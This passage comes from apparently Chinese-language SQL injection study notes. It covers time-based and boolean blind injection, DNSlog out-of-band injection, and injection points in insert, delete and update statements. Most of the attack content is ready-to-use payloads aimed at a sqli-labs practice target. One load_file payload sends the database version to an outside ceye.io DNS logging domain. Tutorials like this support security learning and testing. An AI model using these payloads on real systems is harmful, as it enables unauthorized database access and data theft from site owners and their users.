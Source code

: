 步骤跟正常注入一样，只不过是逐位判断ascii码，如果为某个值，就sleep延时几秒的方式。



### **布尔盲注**

```bash

?id=1' and substr((select user()),1,1)='r' -- +

?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +
#如果 IFNULL 第一个参数的表达式为 NULL，则返回第二个参数的备用值，不为 Null 则输出值

?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +
#若所有的字符串均相同，STRCMP() 返回 0，若根据当前分类次序，第一个参数小于第二个，则返回 -1 ，其它情况返回 
```





### DNSlog注入

> 解决了盲注不能回显数据，效率低的问题

**前提：**
需要高权限
需要是Windows系统



**工具：**

http://ceye.io/
或者其他DNSlog平台
工具，如：https://github.com/ADOOO/DnslogSqlinj



使用语句：

```bash
http://127.0.0.1:8080/sqlilabs/less-2/?id=-1 and if((select load_file(concat('\\\\',(select version()),'.1t7i2f.ceye.io\\abc'))),1,0)--+
# 使用load_file函数，里面带上我们dns log平台的域名， 然后在平台的DNSQuery里面看到结果

```

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220119192501632.png)









## insert,delete,update

insert,delete,update 主要是用到盲注和报错注入，此类注入点**不建议使用 sqlmap 等工具**，会造成大量垃圾数据，一般这种注入会出现在 注册、ip头、留言板等等需要写入数据的地方,同时这种注入不报错一般**较难发现**，我们可以**尝试性插入** 引号、双引号、转义符 \ 让语句不能正常执行，然后如果插入失败，更新失败，然后深入测试确定是否存在注入
